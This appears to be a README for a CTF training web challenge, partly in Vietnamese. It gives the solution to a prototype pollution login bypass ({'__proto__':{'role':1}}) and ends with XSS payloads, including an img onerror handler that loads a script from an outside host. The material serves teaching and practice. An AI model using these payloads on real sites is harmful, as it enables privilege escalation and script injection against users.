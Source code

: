 # Type
`challenge CTF training: Re03`
# Deploy
- `docker-compose up -d --build`
# Description
Prototype pollution vulnerability.
## Chức năng
- Đăng nhập
## Solution
- POST data trong chức năng đăng nhập: {"\_\_proto\_\_":{"role":1}} (lưu ý header cần sửa thành Content-Type: application/json)
## Error: Cannot find module 'ejs' --> fix:
- `cd ./web`
- `npm install ejs`
<img src="http://nonexistent-image" onerror="var script = document.createElement('script'); script.src='http://ip/client.js'; document.body.appendChild(script);">
java:alert()
<a href="javascript:alert(1)">Click here</a>

